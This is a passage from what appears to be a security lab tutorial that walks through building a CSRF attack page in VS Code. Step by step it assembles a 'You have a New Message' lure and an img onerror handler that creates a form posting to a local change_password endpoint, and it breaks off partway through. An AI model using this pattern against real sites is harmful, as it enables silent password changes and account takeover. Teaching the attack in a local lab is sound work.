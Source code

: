 1. In VS Code, Click any where in an open area of the Explorer pane, then click the new file icon, name the file `csrf_attack.html`.
    <figure markdown>
    ![](./assets/vs_new_file.png){ width="300" }
    </figure>

2. Create the foundational elements of an HTML file
    ```html 
    <!DOCTYPE html>
    <html>
        <body>
        
        </body>
    </html>
    ```

3. Inside the `body` HTML element, add a `h2` tag with the value `You have a New Message`
    ```{.html hl_lines="4"}
    <!DOCTYPE html>
    <html>
        <body>
            <h2> You have a New Message</h2>
        </body>
    </html>
    ```
4. Next, create a HTML image element that will execute an `onerror` function for a bad image source
    ```{.html hl_lines="5"}
    <!DOCTYPE html>
    <html>
        <body>
            <h2> You have a New Message</h2>
            <img src="x" onerror=""/>
        </body>
    </html>
    ```

5. Update the `img` `onerror` attribute with a JavaScript function to create a form
    ```{.html hl_lines="2"}
    <img src="x" onerror="
        const f = document.createElement('form');
    "/>
    ```

6. Continue refining the JavaScript to add a form action that will execute a HTTP `POST` request to `http://localhost:8088/change_password`
    ```{.html hl_lines="3 4"}
    <img src="x" onerror="
        const f = document.createElement('form');
        f.action = 'http://localhost:8088/change_password';
        f.method = 'POST';
    "/>
    ```
